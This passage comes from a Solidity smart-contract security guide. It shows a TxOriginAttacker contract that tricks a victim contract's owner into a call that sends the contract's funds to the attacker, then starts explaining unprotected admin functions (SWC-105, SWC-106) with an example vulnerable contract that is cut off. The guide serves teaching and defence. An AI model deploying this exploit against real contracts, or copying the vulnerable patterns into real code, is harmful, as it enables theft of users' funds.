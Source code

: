         contract TxOriginAttacker {
            TxOriginVictim public victim;
            address payable public attackerEOA; // The EOA that deploys this attacker contract

            constructor(address _victimAddress) {
                victim = TxOriginVictim(_victimAddress);
                attackerEOA = payable(msg.sender); // Store the EOA that deployed this contract
            }

            // The victim's owner is tricked into calling this function.
            function exploit() public {
                // When victim.owner calls this function:
                // Inside victim.vulnerableWithdrawAll(attackerEOA):
                //  - tx.origin will be victim.owner (the EOA that called this exploit function)
                //  - msg.sender will be address(this) (the TxOriginAttacker contract)
                // The require(tx.origin == owner) in vulnerableWithdrawAll will pass.
                // Funds will be transferred to attackerEOA.
                victim.vulnerableWithdrawAll(attackerEOA);
            }

            // Function for the attacker EOA to retrieve funds from this contract
            function retrieveFunds() public {
                require(msg.sender == attackerEOA, "Only attacker EOA can retrieve");
                attackerEOA.transfer(address(this).balance);
            }
            receive() external payable {} // To receive funds from victim
        }

        ```

-   **Unprotected Critical Functions (SWC-105, SWC-106):** Functions that perform sensitive operations, such as changing ownership, setting critical parameters (e.g., fee rates, oracle addresses), pausing/unpausing the contract, upgrading contract logic (in proxy patterns), or initiating self-destruction, must have robust access restrictions. If these functions lack proper checks (e.g., an `onlyOwner` modifier or role-based validation), any user can call them, leading to severe consequences.^22^

    -   **SWC-105 (Unprotected Ether Withdrawal):** A function allows withdrawal of Ether without proper authorization.
    -   **SWC-106 (Unprotected `SELFDESTRUCT` Instruction):** A function allows any user to call `selfdestruct`, permanently removing the contract and its funds from the blockchain.

    Solidity

    ```
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.18;

    contract UnprotectedAdminFunctions {
        address public owner;
        address public feeCollector;
        bool public isPaused;

        constructor() {
            owner = msg.sender;
            feeCollector = msg.sender; // Default fee collector
        }
